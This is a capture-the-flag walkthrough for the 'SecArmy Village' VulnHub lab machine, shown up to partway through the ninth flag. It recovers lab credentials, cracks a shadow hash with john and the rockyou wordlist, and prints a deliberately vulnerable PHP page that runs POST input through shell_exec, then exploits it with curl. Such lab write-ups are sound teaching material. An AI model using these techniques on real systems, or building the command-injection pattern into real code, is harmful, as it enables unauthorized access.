



# SecArmy Village CTF
```
Machine URL: https://www.vulnhub.com/entry/secarmy-village-grayhat-conference,585/

Alternate URL: https://drive.google.com/file/d/1WlSyy8OgcV-hDaRVa4iMvAmLBEoTMLkN/view?usp=sharing

Incase the IP doesn't shows up, you can log into the box using test user credentials to find the IP: (cero:svos)
```
First, open the ova file with VirtualBox

Then run it and login with user:`cero`, pass:`svos`

Run `ifconfig` to get the machine IP:
```
ifconfig
enp0s17: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.101  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::a00:27ff:feca:d9db  prefixlen 64  scopeid 0x20<link>
        inet6 2001:d08:f0:3413:a00:27ff:feca:d9db  prefixlen 64  scopeid 0x0<global>
        ether 08:00:27:ca:d9:db  txqueuelen 1000  (Ethernet)
        RX packets 351  bytes 39884 (39.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 156  bytes 21249 (21.2 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 84  bytes 6324 (6.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 84  bytes 6324 (6.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
In this case the machine IP is `192.168.1.101`

Running nmap:
```
nmap 192.168.1.101
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-30 12:59 +08
Nmap scan report for 192.168.1.101
Host is up (0.00027s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:C5:80:33 (Oracle VirtualBox virtual NIC)
```
Notice the SSH port is open, therefore we can use the creds given:`cero:svos` to login into the secure shell:
```bash
ssh cero@192.168.1.101 
The authenticity of host '192.168.1.101 (192.168.1.101)' can't be established.
ECDSA key fingerprint is SHA256:+KBxMeqxgG6NngNoJwwS2riM4d1vvmOUVunnIyNS8I8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.1.101' (ECDSA) to the list of known hosts.
cero@192.168.1.101's password: 
 ________  _______   ________  ________  ________  _____ ______       ___    ___ 
|\   ____\|\  ___ \ |\   ____\|\   __  \|\   __  \|\   _ \  _   \    |\  \  /  /|
\ \  \___|\ \   __/|\ \  \___|\ \  \|\  \ \  \|\  \ \  \\\__\ \  \   \ \  \/  / /
 \ \_____  \ \  \_|/_\ \  \    \ \   __  \ \   _  _\ \  \\|__| \  \   \ \    / / 
  \|____|\  \ \  \_|\ \ \  \____\ \  \ \  \ \  \\  \\ \  \    \ \  \   \/  /  /  
    ____\_\  \ \_______\ \_______\ \__\ \__\ \__\\ _\\ \__\    \ \__\__/  / /    
   |\_________\|_______|\|_______|\|__|\|__|\|__|\|__|\|__|     \|__|\___/ /     
   \|_________|                                                     \|___|/      
                                                                                 
                                                                                 
 ___      ___ ___  ___       ___       ________  ________  _______               
|\  \    /  /|\  \|\  \     |\  \     |\   __  \|\   ____\|\  ___ \              
\ \  \  /  / | \  \ \  \    \ \  \    \ \  \|\  \ \  \___|\ \   __/|             
 \ \  \/  / / \ \  \ \  \    \ \  \    \ \   __  \ \  \  __\ \  \_|/__           
  \ \    / /   \ \  \ \  \____\ \  \____\ \  \ \  \ \  \|\  \ \  \_|\ \          
   \ \__/ /     \ \__\ \_______\ \_______\ \__\ \__\ \_______\ \_______\         
    \|__|/       \|__|\|_______|\|_______|\|__|\|__|\|_______|\|_______|         
                                                                                 
                                                                                 
WELCOME TO THE SECARMY OSCP GIVEAWAY MACHINE!,

https://secarmy.org/village/

THIS MACHINE HAS BEEN MADE AS PART OF THE SECARMY VILLAGE 
EVENT AND IS SPONSOSRED BY OUR GENEROUS SPONSOR OFFENSIVE
SECURITY. YOU ARE REQUIRED TO COMPLETE 10 TASKS IN ORDER TO 
GET THE ROOT FLAG. MAKE SURE THAT YOU JOIN OUR DISCORD SERVER
(bit.ly/joinsecarmy) IN ORDER TO SUBMIT THE FLAG AS WELL AS 
FOR SOLVING YOUR PROBLEMS OR QUERIES...

GOODLUCK!

cero@svos:~$ ls -la
total 32
drwx------  4 cero cero 4096 Oct 30 04:59 .
drwxr-xr-x 12 root root 4096 Oct 19 11:05 ..
-rw-r--r--  1 cero cero  220 Oct 19 11:05 .bash_logout
-rw-r--r--  1 cero cero 3771 Oct 19 11:05 .bashrc
drwx------  2 cero cero 4096 Oct 19 12:00 .cache
drwx------  3 cero cero 4096 Oct 19 12:00 .gnupg
-rw-r--r--  1 cero cero  807 Oct 19 11:05 .profile
-rw-r--r--  1 cero cero  460 Oct 20 17:49 readme.txt

```
There is a `readme.txt` in home directory, it just shows the same thing as above

## UNO flag
The port 80 is opened, so I assume the source is at `/var/www/html`:
```bash
cero@svos:/var/www/html$ ls -la
total 24
drwxr-xr-x 5 root root 4096 Oct  8 17:51 .
drwxr-xr-x 3 root root 4096 Sep 22 11:44 ..
drwxr-xr-x 2 root root 4096 Sep 22 12:01 anon
-rw-r--r-- 1 root root  267 Sep 22 11:58 index.html
drwxr-xr-x 3 root root 4096 Sep 25 11:39 justanothergallery
drwxrwxrwx 2 root root 4096 Oct 18 15:02 shellcmsdashboard
```
The index.html:
```html
<html>
<head>
<title>Totally Secure Website</title>
</head>
<body>
<center><b style="font-size: 32px;">Welcome to the first task! <br>
<br>
You are required to find our hidden directory and make your way into the machine.
<br>
G00dluck!
</b></center>
</body>
</html>
```
There is a hidden directory, look into `anon`:
```bash
cero@svos:/var/www/html$ cd anon
cero@svos:/var/www/html/anon$ ls
index.html
```
The content of index.html:
```html
<html>
<head>
<title>Totally Secret Directory</title>
</head>
<body>
<center><b style="font-size: 32px;">Welcome to the hidden directory! <br>
<br>
Here are your credentials to make your way into the machine!
<br>
<br>
<font color="white">uno:luc10r4m0n</font>
</b></center>
</body>
</html>
```
There is the uno password!!
```
uno:luc10r4m0n
```
Using the `su` command to change user:
```bash
cero@svos:/var/www/html/anon$ su uno
Password: # Type the password
```
Go to the home directory and get the flag!:
```bash
uno@svos:/var/www/html/anon$ cd ~
uno@svos:~$ ls
flag1.txt  readme.txt
uno@svos:~$ cat flag1.txt 
Congratulations!
Here's your first flag segment: flag1{fb9e88}
```

# DOS flag
The `readme.txt` straight give us the password of `dos`!
```
cat readme.txt 
Head over to the second user!
You surely can guess the username , the password will be:
4b3l4rd0fru705
```
Then we need to find a file that contain the hash inside `files`:
```bash
dos@svos:~$ ls
1337.txt  files  readme.txt
dos@svos:~$ cat readme.txt 
You are required to find the following string inside the files folder:
a8211ac1853a1235d48829414626512a
dos@svos:~$ grep -r "a8211ac1853a1235d48829414626512a" files/
files/file4444.txt:a8211ac1853a1235d48829414626512a
```
Inside file4444.txt:
```
cat files/file4444.txt
The swirled lollipop had issues with the pop rock candy.
The newly planted trees were held up by wooden frames in hopes they could survive the next storm.
...
...

a8211ac1853a1235d48829414626512a
Look inside file3131.txt
```
Inside the file3131.txt:
```
...
...
UEsDBBQDAAAAADOiO1EAAAAAAAAAAAAAAAALAAAAY2hhbGxlbmdlMi9QSwMEFAMAAAgAFZI2Udrg
tPY+AAAAQQAAABQAAABjaGFsbGVuZ2UyL2ZsYWcyLnR4dHPOz0svSiwpzUksyczPK1bk4vJILUpV
L1aozC8tUihOTc7PS1FIy0lMB7LTc1PzSqzAPKNqMyOTRCPDWi4AUEsDBBQDAAAIADOiO1Eoztrt
dAAAAIEAAAATAAAAY2hhbGxlbmdlMi90b2RvLnR4dA3KOQ7CMBQFwJ5T/I4u8hrbdCk4AUjUXp4x
IsLIS8HtSTPVbPsodT4LvUanUYff6bHd7lcKcyzLQgUN506/Ohv1+cUhYsM47hufC0WL1WdIG4WH
80xYiZiDAg8mcpZNciu0itLBCJMYtOY6eKG8SjzzcPoDUEsBAj8DFAMAAAAAM6I7UQAAAAAAAAAA
AAAAAAsAJAAAAAAAAAAQgO1BAAAAAGNoYWxsZW5nZTIvCgAgAAAAAAABABgAgMoyJN2U1gGA6WpN
3pDWAYDKMiTdlNYBUEsBAj8DFAMAAAgAFZI2UdrgtPY+AAAAQQAAABQAJAAAAAAAAAAggKSBKQAA
AGNoYWxsZW5nZTIvZmxhZzIudHh0CgAgAAAAAAABABgAAOXQa96Q1gEA5dBr3pDWAQDl0GvekNYB
UEsBAj8DFAMAAAgAM6I7USjO2u10AAAAgQAAABMAJAAAAAAAAAAggKSBmQAAAGNoYWxsZW5nZTIv
dG9kby50eHQKACAAAAAAAAEAGACAyjIk3ZTWAYDKMiTdlNYBgMoyJN2U1gFQSwUGAAAAAAMAAwAo
AQAAPgEAAAAA
```
Using `nano` command to save the base64 string, and use `base64 -d` to decode it:
```bash
dos@svos:~$ base64 -d text
PK3�;Q
      challenge2/P�6Q���>Achallenge2/flag2.txts��K/J,)�I,���+V���H-JU/V��/-R(NM��KQH�IL��sS�J��<�j3#�D#�Z.P3�;Q(���t�challenge2/todo.tx�9�0��S��.���t)8H�^�1"��K��I3�l�(u>
                                   �F�Q�����W
�N�:��!b�8�
           E��gH��LX���&r�Mr+������:x��J<�p�PK?3�;Q
                                                   $��Achallenge2/
 ��2$ݔ���jMސ���2$ݔ�PK�6Q���>A$ ���)challenge2/flag2.txt
 ��kސ���kސ���kސ�PK3�;Q(���t�$ ����challenge2/todo.txt
 ��2$ݔ���2$ݔ���2$ݔ�PK(>
```
Notice the `PK` zip header, therefore it should be a zip file:
```bash
dos@svos:~$ base64 -d text > chal.zip
dos@svos:~$ unzip chal.zip 
Archive:  chal.zip
   creating: challenge2/
  inflating: challenge2/flag2.txt    
  inflating: challenge2/todo.txt 
  dos@svos:~$ cd challenge2/
dos@svos:~/challenge2$ ls
flag2.txt  todo.txt
dos@svos:~/challenge2$ cat flag2.txt 
Congratulations!

Here's your second flag segment: flag2{624a21} 
```

## TRES flag
There is a `todo.txt` in the `challenge2` folder:

```bash
dos@svos:~/challenge2$ cat todo.txt 
Although its total WASTE but... here's your super secret token: c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b
```
And remember we got a `1337.txt` in the home directory:
```bash
dos@svos:~$ cat 1337.txt 
Our netcat application is too 1337 to handle..
```
Try to netcat to port 1337:
```
dos@svos:~$ nc localhost 1337

 Welcome to SVOS Password Recovery Facility!
 Enter the super secret token to proceed: c8e6afe38c2ae9a0283ecfb4e1b7c10f7d96e54c39e727d0e5515ba24a4d1f1b

 Here's your login credentials for the third user tres:r4f43l71n4j3r0 
```
Then we get the password of `tres`!
```
tres:r4f43l71n4j3r0
```
Get the flag:
```bash
tres@svos:~$ ls
flag3.txt  readme.txt  secarmy-village
tres@svos:~$ cat flag3.txt 
Congratulations! Here's your third flag segment: flag3{ac66cf}
```

## CUATO flag
See the readme.txt:
```bash
tres@svos:~$ cat readme.txt 
A collection of conditionals has been added in the secarmy-village binary present in this folder reverse it and get the fourth user's credentials , if you have any issues with accessing the file you can head over to: https://mega.nz/file/XodTiCJD#YoLtnkxzRe_BInpX6twDn_LFQaQVnjQufFj3Hn1iEyU
```
It say we need to reverse the binary `secarmy-village`

Try to run it, it give us error:
```
tres@svos:~$ ./secarmy-village 
./secarmy-village: error while loading shared libraries: libgo.so.16: cannot open shared object file: No such file or directory
```
It is a ELF file, try `strings` command:
```bash
file secarmy-village 
secarmy-village: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), statically linked, stripped
tres@svos:~$ strings secarmy-village
UPX!
td7ha
/lib64
nux-x86-
so.2
mnpquvi
v}H4
!m_L
a\ /
{CHC
...
...
```
Notice there is UPX header, which means the binary is packed by [UPX packer](https://upx.github.io/)

We can't reverse it before its unpacked

But there is no upx program in the machine, we need to download the binary and work it

You can use the [link given](https://mega.nz/file/XodTiCJD#YoLtnkxzRe_BInpX6twDn_LFQaQVnjQufFj3Hn1iEyU) or use `scp` command

Simply run `upx -d secarmy-village` to unpack it:
```bash
upx -d secarmy-village 
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2018
UPX 3.95        Markus Oberhumer, Laszlo Molnar & John Reiser   Aug 26th 2018

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     53496 <-     20348   38.04%   linux/amd64   secarmy-village

Unpacked 1 file.
```
First I run `strings` command, then get the password!
```bash
strings secarmy-village
...
...
Welcome .......Please enter the key ===>  
*int
Please Try Again :(
0x41
0x32
Here's the credentials for the fourth user cuatro:p3dr00l1v4r3z
Please try again ==> %x
SPLIT_STACK_GUARD
unable to allocate additional stack space: errno 
munmap of stack space failed: errno 
...
...
```
Then get the flag!
```bash
cuatro@svos:~$ ls
flag4.txt  todo.txt
cuatro@svos:~$ cat flag4.txt 
Congratulations, here's your 4th flag segment: flag4{1d6b06}
```

## CINCO flag
Look into the `todo.txt`:
```
We have just created a new web page for our upcoming platform, its a photo gallery. You can check them out at /justanothergallery on the webserver.
```
Then I go to the `/var/www/html/justanothergallery` directory, saw a `index.php` and `qr` folder

index.php is just showing the image inside the qr folder:



Total 69 images inside qr:
```bash
cuatro@svos:/var/www/html/justanothergallery/qr$ ls
image-0.png   image-17.png  image-24.png  image-31.png  image-39.png  image-46.png  image-53.png  image-60.png  image-68.png
image-10.png  image-18.png  image-25.png  image-32.png  image-3.png   image-47.png  image-54.png  image-61.png  image-6.png
image-11.png  image-19.png  image-26.png  image-33.png  image-40.png  image-48.png  image-55.png  image-62.png  image-7.png
image-12.png  image-1.png   image-27.png  image-34.png  image-41.png  image-49.png  image-56.png  image-63.png  image-8.png
image-13.png  image-20.png  image-28.png  image-35.png  image-42.png  image-4.png   image-57.png  image-64.png  image-9.png
image-14.png  image-21.png  image-29.png  image-36.png  image-43.png  image-50.png  image-58.png  image-65.png
image-15.png  image-22.png  image-2.png   image-37.png  image-44.png  image-51.png  image-59.png  image-66.png
image-16.png  image-23.png  image-30.png  image-38.png  image-45.png  image-52.png  image-5.png   image-67.png
```
Using `wget -r` we can download the file recursively:
```bash
wget -r http://192.168.1.101/justanothergallery/qr/
--2020-10-30 14:10:54--  http://192.168.1.101/justanothergallery/qr/
Connecting to 192.168.1.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘192.168.1.101/justanothergallery/qr/index.html’

192.168.1.101/justanothergallery/     [ <=>                                                         ]  14.50K  --.-KB/s    in 0s      
...
...
...
```
Then use `zbarimg` command to scan all the QR code:
```bash
zbarimg image*
QR-Code:Hello
QR-Code:you
QR-Code:enjoyed
QR-Code:the
QR-Code:challenges
QR-Code:we
QR-Code:presented
QR-Code:so
QR-Code:far.
QR-Code:It
QR-Code:is
QR-Code:and
QR-Code:time
QR-Code:for
QR-Code:us
QR-Code:to
QR-Code:increase
QR-Code:the
QR-Code:difficulty
QR-Code:level
QR-Code:and
QR-Code:make
QR-Code:congrats
QR-Code:the
QR-Code:upcoming
QR-Code:challenges
QR-Code:more
QR-Code:challenging
QR-Code:than
QR-Code:previous
QR-Code:ones.
QR-Code:Before
QR-Code:you
QR-Code:for
QR-Code:move
QR-Code:to
QR-Code:the
QR-Code:next
QR-Code:challenge,
QR-Code:here
QR-Code:are
QR-Code:the
QR-Code:credentials
QR-Code:for
QR-Code:solving
QR-Code:the
QR-Code:5th
QR-Code:user:
QR-Code:cinco:ruy70m35
QR-Code:head
QR-Code:over
QR-Code:to
QR-Code:this
QR-Code:user
QR-Code:and
QR-Code:this
QR-Code:get
QR-Code:your
QR-Code:5th
QR-Code:flag!
QR-Code:goodluck
QR-Code:for
QR-Code:the
QR-Code:upcoming
QR-Code:challenges!
QR-Code:challenge,
QR-Code:we
QR-Code:hope
QR-Code:that
scanned 69 barcode symbols from 69 images in 0.5 seconds
```
Then we get the password for `cinco`!
```
cinco:ruy70m35
```
FLAG:
```
flag5{b1e870}
```

## SEIS flag
readme:
```
Check for Cinco's secret place somewhere outside the house
```
Using `find` command to find all files belongs to cinco:
```bash
cinco@svos:~$ find / -user cinco 2>/dev/null
/home/cinco
/home/cinco/flag5.txt
/home/cinco/.local
/home/cinco/.local/share
/home/cinco/.local/share/nano
/home/cinco/.profile
/home/cinco/readme.txt
/home/cinco/.bash_logout
/home/cinco/.bashrc
...
...
/cincos-secrets
/cincos-secrets/shadow.bak
/cincos-secrets/hint.txt
```
Notice there are some files in cincos-secrets

Try to cat the file:
```bash
cinco@svos:/cincos-secrets$ cat shadow.bak 
cat: shadow.bak: Permission denied
cinco@svos:/cincos-secrets$ ls -la
total 16
dr-xr-xr-x  2 cinco root 4096 Oct  9 18:07 .
drwxr-xr-x 25 root  root 4096 Oct 18 14:42 ..
-rw-r--r--  1 cinco root   31 Oct  9 18:07 hint.txt
--w-------  1 cinco root 1876 Sep 27 15:46 shadow.bak
```
We only have write permission, simply just run `chmod +r` to add read permission:
```bash
cinco@svos:/cincos-secrets$ chmod +r shadow.bak 
cinco@svos:/cincos-secrets$ cat shadow.bak 
daemon:*:18380:0:99999:7:::
...
...
seis:$6$MCzqLn0Z2KB3X3TM$opQCwc/JkRGzfOg/WTve8X/zSQLwVf98I.RisZCFo0mTQzpvc5zqm/0OJ5k.PITcFJBnsn7Nu2qeFP8zkBwx7.:18532:0:99999:7:::
```
Now we have the password hash of `seis`, we can use john the ripper to crack it!

The hint say use `rockyou.txt` (password wordlist):
```
we will, we will, ROCKYOU..!!!
```
Save it at a file, and run `john --wordlist=/usr/share/wordlists/rockyou.txt hash`

Then wait for a while, when it finish running, type `john --show hash` to show the cracked password:
```bash
john --show hash
seis:Hogwarts:18532:0:99999:7:::

1 password hash cracked, 0 left
```
FLAG:
```
flag6{779a25}
```

## SIETE flag
readme.txt:
```
head over to /shellcmsdashboard webpage and find the credentials!
```
Go to the webpage, it required admin creds:



Go to the directory check the source:
```bash
seis@svos:~$ cd /var/www/html/shellcmsdashboard/
seis@svos:/var/www/html/shellcmsdashboard$ ls
aabbzzee.php  index.php  readme9213.txt  robots.txt
seis@svos:/var/www/html/shellcmsdashboard$ cat index.php 
<html>
<head>
<title> Admin Dashboard </title>
<style>
body{
background-color: #fffdd0;
font-family: Ranchers;
}
.center {
  margin-top: 50px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 50%;
}
.center1
{
  margin-top: 50px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 20%;
  height: 5%;
  border-radius: 15px;
}
.center2
{
  margin-top: 10px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 20%;
  height: 5%;
  border-radius: 15px;
}

.center3
{
  margin-top: 5px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 10%;
  height: 4%;
  border-radius: 15px;
  background-color: #00FF00;
}
</style>
<link href="https://fonts.googleapis.com/css2?family=Ranchers&display=swap" rel="stylesheet">
</head>
<body>

<p align="center" style="font-weight: bold; font-size: 32px;">S h e l l &nbsp;  C M S</p>
<br>
<center style="font-size: 22px;">Admin Login</center>
<form action="index.php" method="post">
<input type="text" placeholder="Username" class="center1" name="emanresu">
<br>
<input type="text" placeholder="Password" class="center2" name="drowssap">
<br>
<input type="submit" class="center3" value="LOGIN">
</form>
<?php
$user = $_POST["emanresu"];
$pass = $_POST["drowssap"];
if(strcmp($user,"admin") == 0){
  if(strcmp($pass,"qwerty")== 0){
   echo "<center>head over to /aabbzzee.php</center>";
 }
}
?>
</body>
</html>
```
aabbzzee.php:
```html
<html>

<head>
<title> Admin Dashboard </title>
<style>
body{
background-color: #fffdd0;
font-family: Ranchers;
}
.center {
  margin-top: 50px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 50%;
}
.center1
{
  margin-top: 50px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 20%;
  height: 5%;
  border-radius: 15px;
}
.center2
{
  margin-top: 10px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 20%;
  height: 5%;
  border-radius: 15px;
}

.center3
{
  margin-top: 5px;
  display: block;
  margin-left: auto;
  margin-right: auto;
  width: 10%;
  height: 4%;
  border-radius: 15px;
  background-color: #00FF00;
}
</style>
<link href="https://fonts.googleapis.com/css2?family=Ranchers&display=swap" rel="stylesheet">
</head>
<body>

<p align="center" style="font-weight: bold; font-size: 32px;">S h e l l &nbsp;  C M S</p>
<br>
<center> User Search </center>
<form method="POST">
    <input type="text" name="comm" placeholder="Search users" class="center2">
    <button class="center3">Search</button>
</form>
<?php
    if(isset($_POST['comm']))
    {
        $cmd = $_POST['comm'];
        echo "<center>";
        echo shell_exec($cmd);
        echo"</center>";
    }
?>
</body>
</html>
```
Notice it execute as command with the parameter `comm`

And saw a `readme9213.txt` file owned by www-data:
```
seis@svos:/var/www/html/shellcmsdashboard$ ls -la
total 24
drwxrwxrwx 2 root     root 4096 Oct 18 15:02 .
drwxr-xr-x 5 root     root 4096 Oct  8 17:51 ..
-rwxrwxrwx 1 root     root 1459 Oct  1 17:57 aabbzzee.php
-rwxrwxrwx 1 root     root 1546 Oct 18 15:02 index.php
--wx-wx-wx 1 www-data root   48 Oct  8 17:54 readme9213.txt
-rwxrwxrwx 1 root     root   58 Oct  1 17:37 robots.txt
```
Therefore we need to use the webpage to execute command to change user permission of that file

I use the `curl` command to make POST request:
```bash
curl localhost/shellcmsdashboard/aabbzzee.php --data "comm=ls"
```
```html
<html>

<head>
<title> Admin Dashboard </title>
...
...
<center>aabbzzee.php
index.php
readme9213.txt
robots.txt
</center></body>
</html>
```
Looks like we have command execution!

We can use `chmod` command to change the file permission become readable by all user

We use execute the following command means everyone can read
```
chmod a+r readme9213.txt
```
Because we communicate with webserver, so we need to URL encode the command:
```
chmod%20a%2Br%20readme9213.txt
```
Then send the POST request and read the `readme9213.txt`!
```bash
curl localhost/shellcmsdashboard/aabbzzee.php --data "comm=chmod%20a%2Br%20readme9213.txt"

seis@svos:/var/www/html/shellcmsdashboard$ ls -la
total 24
drwxrwxrwx 2 root     root 4096 Oct 18 15:02 .
drwxr-xr-x 5 root     root 4096 Oct  8 17:51 ..
-rwxrwxrwx 1 root     root 1459 Oct  1 17:57 aabbzzee.php
-rwxrwxrwx 1 root     root 1546 Oct 18 15:02 index.php
-rwxrwxrwx 1 www-data root   48 Oct  8 17:54 readme9213.txt
-rwxrwxrwx 1 root     root   58 Oct  1 17:37 robots.txt

seis@svos:/var/www/html/shellcmsdashboard$ cat readme9213.txt 
password for the seventh user is 6u1l3rm0p3n473
```
Yeah! We got the sieve's password!
```
siete:6u1l3rm0p3n473
```
FLAG:
```
flag7{d5c26a}
```

## OCHO flag
There are 5 different files in its home directory:
```bash
siete@svos:~$ ls
flag7.txt  hint.txt  key.txt  message.txt  mighthelp.go  password.zip
```
Each file contains:
```
# hint.txt
Base 10 and Base 256 result in Base 256!

# key.txt
x

# message.txt
[11 29 27 25 10 21 1 0 23 10 17 12 13 8]

# mighthelp.go
package main import(
        "fmt" ) func main() {
        var chars =[]byte{}
        str1 := string(chars)
        fmt.println(str1)
}
```
I assume "Base 256" is ASCII, and "Base 10" is message.txt

So the `message.txt` become ASCII text

I guess the key 'x' is used for XORing

I don't have GO lang, so I used Python to solve this:

```py
message = [11, 29, 27 ,25 ,10 ,21 ,1 ,0 ,23 ,10 ,17, 12 ,13 ,8]
print(''.join([chr(t^ord('x')) for t in message]))
```
Result:
```
secarmyxoritup
```
Then use it to unzip the `password.zip`:
```bash
siete@svos:~$ unzip -P secarmyxoritup password.zip 
Archive:  password.zip
 extracting: password.txt            

siete@svos:~$ cat password.txt
the next user's password is m0d3570v1ll454n4
```
Yes! We get ocho pass!
```
ocho:m0d3570v1ll454n4
```
FLAG:
```
flag8{5bcf53}
```

## NUEVE flag
There is only a pcap file, and no hint:
```bash
ocho@svos:~$ ls
flag8.txt  keyboard.pcapng
```
First running `strings` command will get alot of nonsense

Add `-n 100` flag to filter the string less than 100 characters:
```bash
strings -n 100 keyboard.pcapng
...
...
...
QWERTY is a keyboard design for Latin-script alphabets. The name comes from the order of the first six keys on the top left letter row of the keyboard. The QWERTY design is based on a layout created for the Sholes and Glidden typewriter and sold to E. Remington and Sons in 1873. Why was the QWERTY keyboard layout invented and why has it not changed? originally appeared on Quora: the place to gain and share knowledge, empowering people to learn from others and better understand the world.
It was almost the QWE.TY keyboard layout. The three primary confluences that motivated the QWERTY layout and the primary reasons are surprising.
...
...
...
 Indeed this is why humans build machines. However, the use of the keyboard will not instantly disappear, nor did the bicycle. It will be supplanted by new technology. The bicycle exists in the scooter and self driving car world. But it is a relic from the mechanical age. We will move from the mechanical age of of using our fingers and perhaps just our thumbs to filter our knowledge to the true software age of using our voice, it is how we are designed
```
Then we saw a very long passage about **QWERTY keyboard**

We look though the passage and found something pops up:
```
There was a higher possibility for the keys to become jammed. READING IS NOT IMPORTANT, HERE IS WHAT YOU WANT: "mjwfr?2b6j3a5fx/" if the sequence was not perfectly timed. The theory presents that Sholes redesigned the type bar so as to separate the most common sequences of letters
```
The string `mjwfr?2b6j3a5fx/` must be the password, but encrypted

It mention about QWERTY keyboard, so its try the popular [keyboard shift cipher](https://www.dcode.fr/keyboard-shift-cipher) in dcode website

